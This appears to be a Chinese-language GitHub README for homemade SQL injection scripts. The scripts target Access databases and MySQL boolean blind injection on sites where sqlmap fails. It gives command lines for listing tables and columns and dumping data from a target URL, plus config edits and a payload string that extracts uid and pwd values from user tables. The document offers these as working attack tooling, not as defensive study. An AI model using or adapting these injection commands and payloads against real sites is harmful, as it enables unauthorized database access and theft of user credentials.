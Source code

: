 # 1.写这些脚本的目的

解决sqlmap不能跑的站点，并且手工注入又会消耗大量的时间和精力的情况。

# 2.用法

## 2.1 ACCESS-Injection

Blog ： http://admintony.com/2017/12/28/ACCESS%E6%B3%A8%E5%85%A5%E4%B9%8B%E9%80%90%E5%AD%97%E7%8C%9C%E8%A7%A3%E6%B3%95-Python%E5%B7%A5%E5%85%B7/
```bash
python3 inj.py -u Url --tables --keyword=true_page_keyword [--thread=20] #爆表名,--thread参数可选，默认为10

python3 inj.py -u Url -T table_name --columns --keyword=true_page_keyword [--thread=20] #爆表名

python3 inj.py -u Url -T table_name -C col_name1,col_name2... --dump --keyword=keyword[--thread=20] #爆数据
```
## 2.2 MYSQL-Bind-injection

Blog ： http://admintony.com/2017/12/16/%E5%9F%BA%E4%BA%8E%E5%B8%83%E5%B0%94%E7%9B%B2%E6%B3%A8%E7%9A%84%E8%84%9A%E6%9C%AC%E7%BC%96%E5%86%99%E5%AE%9E%E4%BE%8B/

1>第一处
```python
#Target URL
url = "http://targetURL//index.php?a=index&f=ilist&p="
#keyword 用于判断页面是否正确
keyword ="keyword"
```
将代码开头的URL和keyword修改
2>第二处：需要使用什么功能就把什么功能的代码注释取消即可，至于该改的table_name,column_name自己改一下
```python
    info = Info()
    #注入当前数据库的用户
    #info.user()
    #注入数据库的版本
    #info.version()
    #注入当前数据库的名字
    #info.database()
    #注入表名
    #run()
    #注入列名
    run_column("shi_user")
    #注入数据
    #columnL = ["uid","pwd"]
    #run_value("pw_user",*columnL)```
    
3>爆列中数据的时候，列名请填写两个，在程序写死了，如果需要多个列名请修改第334行代码：

e.g.三个列
```python
payload = "-1 or ascii(substr((select concat(%s,0x7c,%s,0x7c,%s) from %s limit %s,1),%s,1))=%s" \
% (self.column[0],self.column[1],self.column[2],self.table, self.i, x, n)
```
# 3.目录

```html
###########
├── Readme.md               // 帮助文档 
├── ACCESS-Injection        // ACCESS的逐字猜解法脚本
│   ├── injection.py        //主程序
│   ├── table.txt           //常用表名，来自sqlmap
│   ├── column.txt          //常用列名，来自sqlmap
├── MYSQL-Bind-injection    //mysql基于布尔盲注的脚本
│   ├── injection.py        //主程序

```
